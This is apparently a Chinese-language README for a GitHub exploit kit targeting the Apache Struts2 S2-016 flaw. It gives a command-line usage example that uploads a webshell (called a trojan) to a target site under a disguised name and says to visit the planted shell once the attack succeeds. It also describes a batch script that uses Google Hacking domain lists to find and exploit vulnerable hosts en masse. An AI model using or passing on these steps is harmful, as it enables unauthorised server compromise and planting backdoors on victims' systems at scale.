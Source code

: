 # s2-016-exp
S2-016 Exploit &amp;&amp; Scanner
1、s2_016.py 文件
这是针对S2-016的exploit程序，使用前先搭建Python运行环境，具体网上搜索即可。
使用方法：
python s2-016.py [target_url] [filename of a  webshell] [shellname at remote host]
例子:
[+]目标:www.xxoo.com 当前路径下有名为webshell.jsp的木马  
------------------------------------------------------------------------------------------------------
[+]命令行执行:python s2-016.py http://www.xxoo.com webshell.jsp system.jsp
目标是www.xxoo.com，要传上去的webshell名字是webshell.jsp（放在当前路径下），system.jsp是传到远程服务器上时，在服务器端的名字

一旦攻击成功，那么就访问http://www.xxoo.com/system.jsp

2、Struts2Scanner.py
s2_016漏洞的批量利用脚本。
给定域名列表（配合Google Hacking）进行扫描探测漏洞主机。
